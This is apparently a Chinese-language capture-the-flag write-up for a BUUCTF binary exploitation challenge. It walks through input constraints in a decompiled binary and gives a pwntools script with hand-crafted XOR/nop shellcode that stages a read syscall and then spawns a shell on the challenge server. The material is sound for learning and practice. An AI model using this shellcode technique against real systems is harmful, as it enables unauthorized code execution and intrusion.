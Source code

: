 ### XOR 编码注入

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67ba0cf8d0e0a243d4023c61.png)

64IDA 反编译，函数框中搜索关键字定位 main 函数

![](https://pic1.imgdb.cn/item/67ba0d10d0e0a243d4023c62.png)

代码又丑又长又绕，直接说流程吧

1. 输入代码

2. 检查 0,2,4..的奇数位为 0x80-0x7ff 间 1,3,5...的偶数位为 0-0x7f 的acsii字符

3. 调用 3 次 cin 不清楚为啥感觉没啥用,反正返回都是 0 作为 1 参 2 参 3 参，测试都是 0，不清楚输啥能得到参数。感觉是专门为了清寄存器的

难点在于奇数位只能说第 1 字节 110 开头第 2 字节 10 开头

想到有一个人写的 shell 绕过用的 int 0x80 的 32 位调用，在 64 位系统里是可以直接用 32 位的调用的

而参数用 xor eax,eax 这种都是 1+Cx 这种后边补个 nop(0x90) 就OK了

而调用 int 0x80 也不用异或

32 位的调用参数使用 ebx,ecx,edx，中断号 eax，奇跳用 leave;nop 这里的 leave 只能用一次，好在它本身有个链

如果没有就得用 xlatb 这个会破坏 al

好在只用开头用一次，后边在偶数位随便弄个 push 就行

```python
from pwn import *

context(arch='amd64')
 
p = remote('node5.buuoj.cn', 28407)
 
shellcode = '''
leave;nop;
xor al,0xc7;nop;
xor edx,eax;nop;
xor al,0xc4;nop;   /* eax=sys_read=3, edx=0xc7*/
xor ecx,ecx;nop;
xor ecx,ebx;nop;   /* ecx=buf */
xor ebx,ecx;nop;   /* ebx=0 */
push rax;
int 0x80  /* read(0,buf,0xc7) */
'''

b = asm(shellcode)

# 输入会吃掉一位
p.sendlineafter(b"What is your lucky number?\n", b'1' + b)
p.sendafter(b'Leave to fate...\n',b'\n\n\n')
p.send(b'\x90'*0x20+asm(shellcraft.sh()))
p.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/67ba137ed0e0a243d4023c9d.png)
